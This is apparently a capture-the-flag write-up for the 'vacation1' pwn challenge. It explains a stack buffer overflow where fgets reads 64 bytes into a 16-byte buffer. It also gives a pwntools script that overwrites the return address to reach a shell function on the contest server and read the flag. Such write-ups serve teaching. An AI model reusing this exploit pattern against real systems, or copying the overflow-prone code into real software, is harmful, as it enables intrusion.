 ```c
void vacation() {
  char buf[16];
  puts("Where am I going today?");
  fgets(buf, 64, stdin);
}
```

The vulnerability is that the function `vacation` contains a buffer overflow which allows us to overwrite the return address with data from stdin.
When it is called the following changes are made to the stack:

| instruction   | pushed value           | rsp change |
|---------------|------------------------|------------|
| call vacation | return address         | -8         |
| push rbp      | previous base pointer  | -8         |
| sub rsp, 0x10 | char buf[16]           | -16        |

The register `rsp` points to the top of the stack and its final value is the same as the start address of `buf`.

The stack grows toward smaller addresses but arrays indices grow toward larger addresses.
Thus `buf[16..24]` is the previous base pointer and `buf[24..32]` is the return address.

The statement `fgets(buf, 64, stdin);` allows us to override the return address of the current stack frame.
In addition, we can overwrite up to 4 additional return addresses (31 bytes and a 0) to chain multiple calls.

## Solution

### pwn/vacation1

The following script opens the binary with pwntools, 
connects to the remote and sends 
one line to override the return address 
and another one with a shell command to read the flag.

```python
from pwn import *

chall = ELF("bin/chall")
shell_land = chall.symbols["shell_land"]
assert shell_land == 0x00401196

# This is not required on my kali virtualbox vm.
# It is necessary on the remote and in a ubuntu:focal-20220404 docker container.
shell_land = 0x0040119e

with remote("tjc.tf", 31680) as p:
    print(p.recv())
    rbp = 0x0
    buffer = b"x" * 16 + p64(rbp) + p64(shell_land) + b"\n"
    p.send(buffer)
    pause(1)
    p.sendline(b"cat flag.txt")
    print(p.recv())
```

